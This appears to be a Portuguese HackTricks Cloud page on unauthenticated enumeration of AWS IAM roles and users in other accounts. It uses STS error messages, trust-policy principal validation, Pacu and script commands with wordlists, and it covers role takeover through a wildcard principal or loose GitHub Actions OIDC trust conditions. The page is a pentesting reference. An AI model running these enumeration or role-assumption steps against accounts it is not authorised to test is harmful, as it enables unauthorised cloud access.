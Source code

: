 # AWS - IAM & STS Enumeração Não Autenticada

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Treinamento AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Treinamento GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Enumerar Funções e Nomes de Usuário em uma conta

### ~~Força Bruta para Assumir Função~~

{% hint style="danger" %}
**Esta técnica não funciona** mais, pois se a função existir ou não, você sempre recebe este erro:

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

Você pode **testar isso executando**:

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

Tentar **assumir uma função sem as permissões necessárias** aciona uma mensagem de erro da AWS. Por exemplo, se não autorizado, a AWS pode retornar:
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
Esta mensagem confirma a existência da função, mas indica que sua política de assunção de função não permite sua assunção. Em contraste, tentar **assumir uma função inexistente leva a um erro diferente**:
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
Interessantemente, este método de **distinguir entre funções existentes e não existentes** é aplicável mesmo entre diferentes contas AWS. Com um ID de conta AWS válido e uma lista de palavras-alvo, é possível enumerar as funções presentes na conta sem enfrentar limitações inerentes.

Você pode usar este [script para enumerar potenciais principais](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum) abusando desse problema.

### Políticas de Confiança: Força Bruta em funções e usuários de Conta Cruzada

Configurar ou atualizar a **política de confiança de uma função IAM envolve definir quais recursos ou serviços AWS estão autorizados a assumir essa função** e obter credenciais temporárias. Se o recurso especificado na política **existe**, a política de confiança é salva **com sucesso**. No entanto, se o recurso **não existe**, um **erro é gerado**, indicando que um principal inválido foi fornecido.

{% hint style="warning" %}
Note que nesse recurso você poderia especificar uma função ou usuário de conta cruzada:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

Este é um exemplo de política:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

Esse é o **erro** que você encontrará se usar uma **função que não existe**. Se a função **existir**, a política será **salva** sem erros. (O erro é para atualização, mas também funciona ao criar)

![](<../../../.gitbook/assets/image (153).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
Você pode automatizar esse processo com [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools)

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

Usando [Pacu](https://github.com/RhinoSecurityLabs/pacu):

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* O papel `admin` usado no exemplo é um **papel na sua conta a ser assumido** pelo pacu para criar as políticas que ele precisa criar para a enumeração

### Privesc

No caso de o papel estar mal configurado e permitir que qualquer um o assuma:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
O atacante poderia simplesmente assumir isso.

## Federação OIDC de Terceiros

Imagine que você consegue ler um **fluxo de trabalho do Github Actions** que está acessando um **papel** dentro da **AWS**.\
Essa confiança pode dar acesso a um papel com a seguinte **política de confiança**:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
Esta política de confiança pode estar correta, mas a **falta de mais condições** deve fazer você desconfiar dela.\
Isso ocorre porque o papel anterior pode ser assumido por **QUALQUER UM do Github Actions**! Você deve especificar nas condições também outras coisas, como nome da organização, nome do repositório, ambiente, branch...

Outra possível má configuração é **adicionar uma condição** como a seguinte:
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
Note que **wildcard** (\*) antes do **dois pontos** (:). Você pode criar uma org como **org\_name1** e **assumir o papel** a partir de uma Ação do Github.

## Referências

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

